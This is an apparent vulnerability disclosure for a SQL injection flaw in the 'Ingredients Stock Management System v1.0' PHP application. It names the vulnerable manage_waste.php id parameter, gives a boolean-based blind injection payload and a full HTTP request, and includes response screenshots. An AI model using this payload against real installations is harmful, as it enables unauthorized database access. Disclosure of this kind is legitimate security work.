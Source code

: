 # Ingredients Stock Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15364/ingredients-stock-management-system-phpoop-free-source-code.html

Vulnerability File: /isms/admin/stocks/manage_waste.php

Vulnerability location /isms/admin/stocks/manage_waste.php, id

db_name = isms_db;length=7

[+] Payload: /isms/admin/stocks/manage_waste.php?id=1%27%20and%20length(database())%20=%207--+ // Leak place ---> id

```sql
GET /isms/admin/stocks/manage_waste.php?id=1%27%20and%20length(database())%20=%207--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=2m880botn1u43hd2gu23ttj4ug
Connection: close
```

When length (database ()) = 7
![image](https://user-images.githubusercontent.com/54017627/179384228-ff4c6a48-4697-4ec6-8ba0-f7e00e07dcc0.png)

When length (database ()) = 6
![image](https://user-images.githubusercontent.com/54017627/179384232-baa6aeab-d619-489a-b25f-da66cce3f460.png)
